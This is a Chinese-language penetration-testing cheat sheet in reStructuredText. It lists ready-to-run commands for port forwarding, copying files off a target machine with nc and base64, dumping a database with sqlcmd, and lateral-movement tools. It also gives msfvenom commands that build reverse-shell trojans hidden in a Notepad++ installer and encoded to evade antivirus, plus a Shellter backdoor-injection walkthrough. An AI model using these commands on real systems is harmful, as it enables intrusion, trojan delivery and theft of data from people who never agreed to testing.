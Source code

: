 综合技巧
========================================

端口转发
----------------------------------------
- nc
	- 端口扫描
		+ ``nc -z -v -n 172.31.100.7 21-25``
	- 端口转发
		+ ``nc -l 8000`` 
		+ ``cat /tmp/fifo | nc localhost 8000 | nc -l 9000 > /tmp/fifo`` 
		+ ``nc -n 192.168.1.102 9000`` 
- socat
	- 显示本地文件
		+ ``socat - /etc/sysctl.conf`` 
	- 监听本地端口
		+ ``socat TCP-LISTEN:12345 -`` 
	- UNIX DOMAIN域套接字转成TCP SOCKET
		+ ``socat TCP-LISTEN:12345,reuseaddr,fork UNIX-CONNECT:/data/deCOREIDPS/unix.domain`` 
	- 端口转发
		+ ``对于所有15000端口的TCP访问，一律转发到 server.wesnoth.org:15000 上`` 
		+ ``socat -d -d -lf /var/log/socat.log TCP4-LISTEN:15000,reuseaddr,fork,su=nobody TCP4:server.wesnoth.org:15000`` 
		+ ``tcp：nohup socat TCP4-LISTEN:2333,reuseaddr,fork TCP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
		+ ``udp：nohup socat UDP4-LISTEN:2333,reuseaddr,fork UDP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
	
文件传输
----------------------------------------
- nc
	- 文件传输
		+ 将B机器上的file.txt传输到A机器上
		+ ``A机器：nc -lvp 1567 > file.txt``
		+ ``B机器：nc 172.31.100.7 1567 < file.txt``
	- 目录传输
		+ ``tar -cvf – dir_name | nc -l 1567``
		+ ``nc -n 172.31.100.7 1567 | tar -xvf -``
	- 加密传输
		+ ``nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt``
		+ ``mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567``
- python
	- 目标机器转base64
		+ ``目标机器有python：python -c 'print(__import__("base64").b64encode(open("secret.zip", "rb").read()))'``
	- 个人机器还原
		+ ``cat - > zip.txt``
		+ ``输入拿到的base64串：UEsDBBQACQAIAEZ/CE8bl，输入完成按回车``
		+ ``^C即ctrl+c``
		+ ``还原文件：base64 -d zip.txt > secret.zip``

脱裤
----------------------------------------
- sqlcmd
	+ dump数据:``sqlcmd -S 127.0.0.1,1433 -U username123 -P pasword123 -d datebase123 -Q"BACKUP DATABASE database123 to disk='c:\www\myweb\wap\userlz.bak'"``
- sqlmap

远程连接 && 执行程序
----------------------------------------
- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC创建服务执行
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc

netstat
-----------------------------------------

|netstat|

- Local ：访问端口的方式，0.0.0.0 是对外开放端口，说明80端口外面可以访问；127.0.0.1 说明只能对本机访问，外面访问不了此端口；
- Address：端口
- Foregin Address：对外开放，一般都为0.0.0.0：* 
- Program name：此端口是那个程序在用，程序挂载此端口
- 重点说明 0.0.0.0 是对外开放，通过服务域名、ip可以访问的端口
- 127.0.0.1 只能对本机 localhost访问，也是保护此端口安全性
- ::: 这三个: 的前两个”::“，是“0:0:0:0:0:0:0:0”的缩写，相当于IPv6的“0.0.0.0”，就是本机的所有IPv6地址，第三个:是IP和端口的分隔符

免杀
-----------------------------------------
- MSF制作免杀木马
	- 列出所有可用编码
		``msfvemon -l encoders``
	- 裸奔木马
		``msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=1234 -f exe > /root/test.exe``
	- 免杀木马
		``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.20.2 LPORT=3333 -e x86/shikata_ga_nai -x npp.7.8.6.Installer.exe -i 12 -f exe -o /root/npp1.exe``

	|msfvemon1|

- Shellter动态注入工具
	- 下载地址
		``https://www.shellterproject.com/download/``
	- Choose Operation Mode - Auto/Manual (A/M/H)
		选择模式: 自动模式自动注入后门，M高级模式，H帮助
	- PE Target：
		注入的程序.
	- Enable Stealth Mode?
		是否启用隐身模式
	- Use a listed payload or custom? (L/C/H)
		使用攻击模块列表或者自定义
	- Select payload by index:
		选择payload序号
	- SET LHOST
		设置反弹回来的IP 本机
	- SET LPORT
		设置接收反弹的端口
		
提权
-----------------------------------------
- PEASS-ng
	 + 新一代特权升级脚本套件，适用于 Windows 和 Linux/Unix* 以及 MacOS 的权限提升工具
	 + 项目地址: ``https://github.com/carlospolop/PEASS-ng``


.. |netstat| image:: ../images/netstat.png
.. |msfvemon1| image:: ../images/msfvenom1.png
